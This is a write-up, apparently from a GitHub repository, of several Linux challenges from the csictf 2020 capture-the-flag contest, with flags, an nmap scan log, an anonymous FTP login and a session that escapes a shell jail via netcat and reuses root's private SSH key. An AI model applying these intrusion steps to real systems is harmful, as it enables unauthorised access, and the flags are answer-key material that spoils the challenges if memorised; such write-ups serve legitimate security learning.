

# LINUX

## AKA

nc chall.csivit.com 30611

### FLAG : csictf{1_4m_cl4rk3_k3nt}




## find32

An ssh shell was given ..

ssh user1@chall.csivit.com -p 30630 Password is find32

FLAG : csictf{th15_15_unu5u41}


As the flag is not wrapped in csictf{} i searched for "_"
and found


I got a dummy flag and some numbers written after user 2 maybe password.

So i logged onto user 2 and searched for "_" and got the flag.


## HTB 0X1 

The IP was gien : So I began with **nmap scan**.


```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 20:40 EDT
Warning: 34.93.37.238 giving up on port because retransmission cap hit (6).
Stats: 0:32:58 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 70.31% done; ETC: 21:26 (0:13:54 remaining)
Nmap scan report for 238.37.93.34.bc.googleusercontent.com (34.93.37.238)
Host is up (0.10s latency).
Not shown: 63783 filtered ports, 1748 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5001/tcp  open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 10.160.0.2 is not the same as 34.93.37.238
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:47.11.170.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 11
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
11387/tcp open  tcpwrapped
11550/tcp open  tcpwrapped
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Network Distance: 22 hops
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 7001/tcp)
HOP RTT       ADDRESS
1   2.80 ms   192.168.43.1
2   ...
3   96.14 ms  10.72.107.18
4   83.13 ms  192.168.42.86
5   87.75 ms  192.168.42.33
6   109.94 ms 172.25.11.5
7   ... 12
13  83.18 ms  72.14.233.106
14  95.62 ms  142.250.37.1
15  98.83 ms  142.250.37.49
16  95.97 ms  142.250.226.136
17  ... 21
22  149.08 ms 238.37.93.34.bc.googleusercontent.com (34.93.37.238)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3514.43 seconds

```

At I first I thinks it would be two three steps hacking like extracting pass from ftp port .....
But unfortunately it was wasy easier I tried to connect ftp since Anonymous FTP login allowed there was no issue

```bash
ftp -p  34.93.37.238 5001

```
But since no commands were working I opened the ftp in browser and flag was their only :


### csictf{4n0nym0u5_ftp_l0g1n}


## WHEREAMI  

Given IP : nc chall.csivit.com 30623

At first on connecting to it you will get that it's a linux jail but it can easily be break by **/bin/sh -i 2>&1**,  So I just followed the normal linux commands and found **id_rsa** for the root user, but when I was trying to connect through it was spiting this error.

```bash

where-am-i-544787754f-rhtps:/root/.ssh$ ssh -i /root/.ssh/id_rsa root@localhost
lsPseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/home/ctf/.ssh'.
Host key verification failed.

```

But by little bit  googling I got the solution to my errors from this [link](https://askubuntu.com/questions/45679/ssh-connection-problem-with-host-key-verification-failed-error).

Here is complete steps : 

```bash
root@kali:~# nc chall.csivit.com 30623
Where am I?
/bin/sh -i 2>&1
/bin/sh: can't access tty; job control turned off
where-am-i-544787754f-qn2wt:/home/ctf$ cd ../..
where-am-i-544787754f-qn2wt:/$ ls -la
total 76
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root             0 Jul 20 07:51 .dockerenv
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 bin
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 dev
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 etc
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 home
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 lib
dr-xr-xr-x    1 root     root          4096 May 29 14:20 media
dr-xr-xr-x    1 root     root          4096 May 29 14:20 mnt
dr-xr-xr-x    1 root     root          4096 May 29 14:20 opt
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 proc
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 root
dr-xr-xr-x    1 root     root          4096 May 29 14:20 run
dr-xr-xr-x    1 root     root          4096 May 29 14:20 sbin
dr-xr-xr-x    1 root     root          4096 May 29 14:20 srv
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 sys
dr-xr-xr-x    1 root     root          4096 May 29 14:20 tmp
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 usr
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 var
where-am-i-544787754f-qn2wt:/$ cd root
where-am-i-544787754f-qn2wt:/root$ ls -la
total 12
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .ssh
where-am-i-544787754f-qn2wt:/root$ cd .ssh
where-am-i-544787754f-qn2wt:/root/.ssh$ ls -la
total 20
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root           571 Jul 20 07:52 authorized_keys
-r-xr-xr-x    1 root     root          2602 Jul 20 07:51 id_rsa
-r-xr-xr-x    1 root     root           571 Jul 20 07:51 id_rsa.pub                                                                                                            
where-am-i-544787754f-qn2wt:/root/.ssh$ ssh -i id_rsa -t -t -o StrictHostKeyChecking=no  root@localhost                                                                        
root@kali:~# nc chall.csivit.com 30623
Where am I?                                                                                                                                                                    
/bin/sh -i 2>&1                                                                                                                                                                
/bin/sh: can't access tty; job control turned off                                                                                                                              
where-am-i-6d4d9d997d-w429b:/home/ctf$ cd ../..                                                                                                                                
cd root
where-am-i-6d4d9d997d-w429b:/$ where-am-i-6d4d9d997d-w429b:/root$ cd .ssh
where-am-i-6d4d9d997d-w429b:/root/.ssh$ ls -la
total 20
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root           571 Jul 20 07:52 authorized_keys
-r-xr-xr-x    1 root     root          2602 Jul 20 07:51 id_rsa
-r-xr-xr-x    1 root     root           571 Jul 20 07:51 id_rsa.pub
where-am-i-6d4d9d997d-w429b:/root/.ssh$ ssh -i  /root/.ssh/id_rsa  -o StrictHostKeyChecking=no  root@localhost
Pseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/home/ctf/.ssh'.
Failed to add the host to the list of known hosts (/home/ctf/.ssh/known_hosts).
csictf{n1c3_d093_w0w_5uch_55h}where-am-i-6d4d9d997d-w429b:/root/.ssh$

```
### csictf{n1c3_d093_w0w_5uch_55h}

